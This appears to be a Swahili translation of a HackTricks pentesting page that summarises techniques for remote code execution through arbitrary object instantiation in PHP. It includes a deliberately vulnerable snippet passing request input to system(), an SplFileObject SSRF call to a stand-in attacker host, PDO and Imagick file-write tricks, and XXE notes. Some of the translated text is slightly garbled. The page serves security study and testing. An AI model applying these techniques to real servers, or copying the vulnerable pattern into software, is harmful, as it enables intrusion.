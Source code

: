 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Hii ni muhtasari wa [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Utangulizi

Uundaji wa vitu vipya vya kiholela, kama `new $_GET["a"]($_GET["a"])`, unaweza kusababisha Utekelezaji wa Msimbo wa K remote (RCE), kama ilivyoelezwa katika [**andika**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Hati hii inasisitiza mikakati mbalimbali za kufikia RCE.

## RCE kupitia Madarasa ya Kawaida au Autoloading

Sintaksia `new $a($b)` inatumika kuunda kitu ambapo **`$a`** inawakilisha jina la darasa na **`$b`** ni hoja ya kwanza inayopitishwa kwa mjenzi. Vigezo hivi vinaweza kupatikana kutoka kwa ingizo la mtumiaji kama GET/POST, ambapo vinaweza kuwa nyuzi au orodha, au kutoka JSON, ambapo vinaweza kuonekana kama aina nyingine. 

Fikiria kipande cha msimbo kilichopo hapa chini:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Katika hali hii, kuweka `$a` kuwa `App` au `App2` na `$b` kuwa amri ya mfumo (kwa mfano, `uname -a`) kunasababisha utekelezaji wa amri hiyo.

**Mifumo ya Autoloading** inaweza kutumika vibaya ikiwa hakuna madarasa kama hayo yanayopatikana moja kwa moja. Mifumo hii inasababisha madarasa kupakuliwa moja kwa moja kutoka kwa faili inapohitajika na inafafanuliwa kwa kutumia `spl_autoload_register` au `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Tabia ya autoloading inatofautiana kulingana na toleo la PHP, ikitoa uwezekano tofauti wa RCE.

## RCE kupitia Madarasa ya Msingi

Kukosa madarasa ya kawaida au autoloaders, **madarasa ya msingi ya PHP** yanaweza kutosha kwa RCE. Idadi ya madarasa haya inatofautiana kati ya 100 hadi 200, kulingana na toleo la PHP na nyongeza. Inaweza kuorodheshwa kwa kutumia `get_declared_classes()`.

Mifano ya wakandarasi wanaovutia inaweza kutambuliwa kupitia API ya reflection, kama inavyoonyeshwa katika mfano ufuatao na kiungo [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE kupitia mbinu maalum inajumuisha:**

### **SSRF + Phar Deserialization**

Darasa la `SplFileObject` linawezesha SSRF kupitia wakandarasi wake, likiruhusu muunganisho na URL yoyote:
```php
new SplFileObject('http://attacker.com/');
```
SSRF inaweza kusababisha mashambulizi ya deserialization katika matoleo ya PHP kabla ya 8.0 kwa kutumia itifaki ya Phar.

### **Kunutumia PDOs**

Mjenzi wa darasa la PDO unaruhusu muunganisho na hifadhidata kupitia nyuzi za DSN, ambayo inaweza kuwezesha uundaji wa faili au mwingiliano mwingine:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Matoleo ya PHP hadi 5.3.22 na 5.4.12 yalikuwa na hatari ya mashambulizi ya XXE kupitia waandishi wa `SoapClient` na `SimpleXMLElement`, kulingana na toleo la libxml2.

## RCE kupitia Imagick Extension

Katika uchambuzi wa **mategemeo ya mradi**, iligundulika kwamba **Imagick** inaweza kutumika kwa **kutekeleza amri** kwa kuunda vitu vipya. Hii inatoa fursa ya kutumia udhaifu.

### VID parser

Uwezo wa VID parser wa kuandika maudhui kwenye njia yoyote iliyoainishwa katika mfumo wa faili ulitambuliwa. Hii inaweza kusababisha kuwekwa kwa shell ya PHP katika saraka inayoweza kufikiwa kupitia wavuti, ikipata Remote Code Execution (RCE).

#### VID Parser + Upakiaji wa Faili

Imepangwa kwamba PHP inahifadhi kwa muda faili zilizopakiwa katika `/tmp/phpXXXXXX`. VID parser katika Imagick, ikitumia protokali ya **msl**, inaweza kushughulikia wildcards katika njia za faili, ikirahisisha uhamishaji wa faili ya muda kwenda mahali ulipochagua. Njia hii inatoa mbinu ya ziada ya kufikia uandishi wa faili bila mpangilio ndani ya mfumo wa faili.

### PHP Crash + Brute Force

Mbinu iliyoelezwa katika [**andiko la asili**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) inahusisha kupakia faili zinazochochea kuanguka kwa seva kabla ya kufutwa. Kwa kutumia brute-force jina la faili ya muda, inakuwa inawezekana kwa Imagick kutekeleza msimbo wa PHP bila mpangilio. Hata hivyo, mbinu hii iligundulika kuwa na ufanisi tu katika toleo la zamani la ImageMagick.

## Marejeleo

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
